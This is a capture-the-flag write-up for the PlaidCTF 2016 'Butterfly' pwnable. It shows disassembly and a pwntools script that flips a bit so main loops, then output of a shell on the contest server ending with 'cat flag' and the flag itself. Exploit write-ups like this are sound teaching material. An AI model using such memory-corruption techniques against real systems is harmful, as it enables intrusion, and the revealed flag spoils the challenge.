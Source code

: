 ```yaml
---
layout: post
title: Plaidctf 2016 Butterfly
comments: false
category: ctf
tags: ctf, plaidctf, reversing, pwnable
---
```


This is a write-up of the challenge Butterfly from the Plaid ctf 2016.

# The challenge

Butterfly is a 64bit x86 linux pwnable, which simply lets you flip a single bit by shining a cosmic ray at it.

It works by `mprotect`'ing the page with read-write-execute before flipping the bit and then calling mprotect again to remove write rigths.

# The exploit

As we can flip arbitary bits in both the code and data, it knew that we shuld either flip it the code of `main` or a got entry, to controle RIP.

At the end of `main` we found:

```text
  400860:   48 83 c4 48             add    rsp,0x48
  400864:   5b                      pop    rbx
  400865:   41 5e                   pop    r14
  400867:   41 5f                   pop    r15
  400869:   5d                      pop    rbp
  40086a:   c3                      ret
```
and thus flipping the 6'th bit at 400863 would change the `add rsp,0x48` to `add rsp, 0x8`,
and so `main` would return to an address of our choosing.

So by letting `main` to return to `main` we was able to get unlimited bit flips.

```python
from pwn import *
context(arch="amd64")

e = ELF("./butterfly_33e86bcc2f0a21d57970dc6907867bed")
#r = remote("butterfly.pwning.xxx", 9999)
r = process("./butterfly_33e86bcc2f0a21d57970dc6907867bed")

addr = 0x400860+3
num = (addr << 3) + 6
r.sendline(str(num).ljust(40)+p64(e.symbols["main"]))
```

which when run gives us:

```sh
$ python doit_butterfly.py
[*] '/home/user/butterfly_33e86bcc2f0a21d57970dc6907867bed'
    Arch:          amd64-64-little
    RELRO:         No RELRO
    Stack Canary:  Canary found
    NX:            NX enabled
    PIE:           No PIE
[x] Starting program './butterfly_33e86bcc2f0a21d57970dc6907867bed'
[+] Starting program './butterfly_33e86bcc2f0a21d57970dc6907867bed': Done
[*] Switching to interactive mode
THOU ART GOD, WHITHER CASTEST THY COSMIC RAY?
WAS IT WORTH IT???
THOU ART GOD, WHITHER CASTEST THY COSMIC RAY?
```

note that "THOU ART GOD, WHITHER CASTEST THY COSMIC RAY?" is written twice, this is because we are re-executing `main`.

So from here it was easy to write some shellcode in the `.bss` and just return to it...

# Final exploit

{% gist 9ae520bc2bfeca537bd119760f149f0b %}
```sh
[*] '/home/user/butterfly_33e86bcc2f0a21d57970dc6907867bed'
    Arch:          amd64-64-little
    RELRO:         No RELRO
    Stack Canary:  Canary found
    NX:            NX enabled
    PIE:           No PIE
[x] Opening connection to butterfly.pwning.xxx on port 9999
[x] Opening connection to butterfly.pwning.xxx on port 9999: Trying 13.92.239.242
[+] Opening connection to butterfly.pwning.xxx on port 9999: Done
[*] Switching to interactive mode
WAS IT WORTH IT???
THOU ART GOD, WHITHER CASTEST THY COSMIC RAY?
WAS IT WORTH IT???
id
uid=1001(problem) gid=1001(problem) groups=1001(problem)
cat flag
PCTF{b1t_fl1ps_4r3_0P_r1t3}
```


